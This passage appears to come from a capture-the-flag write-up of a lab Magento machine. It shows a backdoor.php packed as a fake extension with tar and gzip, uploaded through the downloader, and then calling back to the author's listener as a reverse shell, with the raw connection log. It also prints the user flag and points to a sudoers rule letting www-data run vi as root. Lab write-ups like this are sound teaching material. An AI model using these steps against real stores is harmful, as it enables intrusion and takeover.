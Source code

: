     <dependencies>
        <required>
            <php>
                <min>5.2.0</min>
                <max>6.0.0</max>
            </php>
        </required>
    </dependencies>
    </package>

With the hash being calculated by running `md5sum backdoor.php`

I put the `backdoor.php` file in the `errors` directory and created the gzip file required with:

    tar -cvf backdoor.tar errors/ package.xml
    gzip backdoor.tar

I then uploaded this at `http://10.10.10.140/downloader/`

<figure class="kg-card kg-image-card"><img src="/content/images/2019/11/vlcsnap-2019-07-19-07h26m05s925.png" class="kg-image"></figure>

However, on going to http://10.10.10.140/errors/ I found that what &nbsp;should have been a file had somehow become a directory. I ran through &nbsp;the process again and had the smae result, odd! I did some googling and &nbsp;found this was a bug in Magento and a workaround was to have the &nbsp;extension as .tgz file.

In order to make sure I had a clean build I built a new .tgz from scratch using

`tar -xvzf backdoor.tgz errors/ package.xml`

This time the `backdoor.php` file was actually a file and clicking on it connected back to my listener.

At this point running `id` showed I was the www-data user, which wasn't unexpected. I decided to try for the user flag first, which turned out to be easy:

    10.10.10.140: inverse host lookup failed: Unknown host
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.140] 58342
    cd /home/
    ls
    haris
    cd haris
    ls
    user.txt
    cat user.txt
    a448877277e82f05e5ddf9f90aefbac8

### Getting root

I did an `ls -al` in `/home/haris` out of habit &nbsp;and noticed the SUDO file which got me thinking about elevating &nbsp;privileges. Looking the sudeors file we see the line:

`www-data ALL=NOPASSWD:/usr/bin/vi /var/www/html/*`

This means the `www-data` user can run vi as root on any files in `/var/www/html`  
So, if we try this the shell hangs, I guess sudo doesn't work in such a basic shell.
